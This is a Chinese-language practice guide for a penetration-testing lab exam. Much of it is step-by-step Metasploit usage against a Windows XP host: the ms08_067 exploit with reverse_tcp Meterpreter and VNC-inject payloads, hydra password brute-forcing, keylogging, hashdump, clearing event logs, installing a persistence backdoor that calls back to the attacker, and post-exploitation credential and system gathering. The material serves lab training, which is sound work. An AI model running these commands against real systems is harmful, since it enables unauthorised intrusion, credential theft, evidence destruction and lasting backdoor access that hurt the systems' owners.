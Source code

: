 # Practical Exam 1 Practice

> Author: Dongyi Guo
>
> Doc Version : 1.2.1

* 在正式的考试中，您将只使用Kali Linux，其他设备的配置仅为个人练习使用。
* 在本文件中，所有 ```<...>``` 的位置要求您自行寻找到相关的信息来填入。

## Question 1

#### Linux 网络设置 (Kali, Metasploitable2):

通过以下命令为Linux设备设置IP：

```bash
ip a a <IP地址>/<网络前缀> dev <网络接口>
```

通过以下命令检查当前设备IP：

```bash
ip a
```

或者：

```bash
ifconfig
```

留意对应网络接口的 ```inet``` 参数来查看 IPv4 地址。在考试中只需要对Kali Linux进行网络设置，对Metasploitable2进行配置时（使用msfadmin账号），注意使用 ```sudo``` 。

#### Windows 网络设置:

* 在正式的考试中无需配置Windows虚拟机。

在 Windows 7 或更高版本的Windows上设置网络：

* 去到 Network and Sharing Center，点击 Connections 后面的网络接口。
* 点击 Properties。
* 高亮选择 "Internet Protocol Version 4 (TCP/IPv4)"，点击 Properties。
* 在新窗口中设置IP和子网掩码。

对于 Windows XP：

* 去到 Control Panel （控制面板）。
* 双击 Network Connection。
* 双击存在的网络接口。
* 选择 Properties。
* 高亮选择 "Internet Protocol [TCP/IP]"，点击 Properties。
* 在新窗口中设置IP和子网掩码。

## Question 2

通过 ```nmap``` 找到网络中活动的主机：

```bash
nmap -sn <网络地址/网络前缀>
```

对目标主机进行端口扫描：

```bash
nmap <主机地址>
```

如需获取目标主机系统信息：

```bash
nmap -O -v <主机地址>
```

如果在自主练习时需要关闭防火墙：

* 在开始菜单中搜索 "Windows Firewall"，并点选那个只有这两个单词的选项。
* 在侧边栏菜单中点选 "Turn Windows Firewall on or off"。
* 关闭所有防火墙服务。

## Question 3

通过 ```hydra``` 可以brute-force密码验证，在给定一个登录名，主机和被突破的服务协议的情况下，您同时需要一个密码字典：

```bash
hydra -l <登录名> -P <密码字典文件路径> <主机地址> <服务协议> -t <并行任务数量>
```

可以在：

```bash
man hydra
```

获取所有 ```hydra``` 支持的服务协议。

## Question 4

Windows XP 可用的攻破方式有：

* VNC injection, 会返回一个图形界面可供检视和操作.
* Meterpreter, 会返回一个命令行界面，提供多种功能.

启动Metasploit Framework (命令提示符为: ```msf6>``` 之后)，对于 VNC injection：

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/vncinject/reverse_tcp
set LHOST <Kali的IP地址>
set RHOST <XP的IP地址>
set ViewOnly false
exploit
```

对于 Meterpreter：

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set LHOST <Kali的IP地址>
set RHOST <XP的IP地址>
exploit
```

在 Meterpreter 会话中 (命令提示符为: ```meterpreter>``` 之后)，可用的命令有：

```bash
cd <文件目录> # 切换文件目录
ls # 列出当前文件目录内容
pwd # 显示当前文件目录
sysinfo # 显示系统信息
ipconfig # 显示网络配置
screenshot # 截图屏幕
hashdump # 打印设备用户和其加密过的密码
search -f <文件名> # 从当前文件目录开始搜寻文件
download <远程路径> <本地路径> # 下载远程文件到本地位置
# download 只识别Unix系统中反斜杠('/')来表示文件层级，对于Windows的正斜杠('\'),
# 可以替换成双正斜杠('\\')'或者改回反斜杠

clearev # 清除事件记录

getpid # 获取当前寄生进程ID
ps # 列出当前系统进程
migrate <processID> # 通过声明ID移植到新的进程
# 按键记录器以下仅在寄生进程权限较高时（如文件管理器进程）可用
keyscan_start # 启动按键记录
keyscan_dump # 获取已生成的按键记录
keyscan_stop # 停止按键记录

# 将当前Meterpreter会话放至后台
background
# 或者
bg
# 或者 ctrl + z
```

如需给Meterpreter会话的目标主机添加后门，后台该会话，然后在Metasploit Framework中：

```bash
use exploit/windows/local/persistence
set LHOST <Kali的IP地址>
set LPORT 445
set STARTUP SYSTEM # SYSTEM不要小写
sessions # 获取Meterpreter会话ID
set session <Meterpreter会话ID> 
exploit
```

然后开始监听后门的回执：

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <Kali的IP地址>
set LPORT 445
run # 和exploit是一样的
```

之后，若XP重启，其会发送一个链接请求到Kali，之前的监听窗口会自动进入Meterpreter。

## MSF Essentials

在Metasploit Framework的窗口中：

```bash
search <关键字> # 通过关键字寻找漏洞
show options # 显示当前漏洞和payload中可配置的参数
show paylaods # 显示当前漏洞可用的payload
show targets # 显示当前漏洞可用的目标
```

* 可以使用 ```setg``` 来取代 ```set``` ，这样如果需要在多个漏洞模组之间切换，如果参数有同名的，参数值将会被保留。
* 参数名大小写不敏感，但是参数值，特别是在 ```show options``` 中给定可接受的参数值的 (Accepted: ...)， 必须严格遵守大小写：

```bash
set sTArTuP SYSTEM # 彳亍
set STARTUP system # 不彳亍
```

## Post-Exploitation Information Gathering

* 这通常意味着我们需要对目标已经有一个有管理员权限的会话。

如果您有一个reverse shell的会话想升级到Meterpreter会话，可使用：

```bash
sessions # 检查reverse shell会话的会话ID
sessions -u <ReverseShell会话ID>
```

如果您有一个一般权限的Meterpreter会话, 想找到漏洞来跃迁您的权限，可使用：

```bash
sessions # 检查Meterpreter会话的会话
use post/multi/recon/local_exploit_suggester
set session <UnprivilegedMeterpreter会话ID>
run
```

来列出可用的漏洞来跃迁目标权限。

获得了管理员权限的会话之后，可以在MSF中搜索获取信息的模组：

```bash
# 对于 Linux
search post/linux/gather
# 对于 Windows
search post/windows/gather
```

比较常用的信息获取模组有：

```bash
use post/<linux/windows>/gather/checkvm # 检查目标是否为虚拟机，如果是则列出虚拟化服务
use post/linux/gather/checkcontainer # 检查目标是否为容器
use post/linux/gather/hashdump # 显示目标用户和加密过的密码
use post/windows/gather/smart_hashdump # 显示目标用户和加密过的密码并保存至 /root/.msf4/loot/
use post/linux/gather/enum_protections # 显示目标设备的安全措施
use post/linux/gather/enum_configs # 显示目标设备的服务配置文件并保存至 /root/.msf4/loot/
use post/linux/gather/enum_network # 显示目标设备的网络配置信息并保存至 /root/.msf4/loot/
use post/linux/gather/enum_system # 显示目标设备的系统信息并保存至 /root/.msf4/loot/
```

将 ```session``` 参数设置为管理员权限的Meterpreter会话ID就可以开始获取信息了：

```bash
set session <Meterpreter会话ID>
run
```

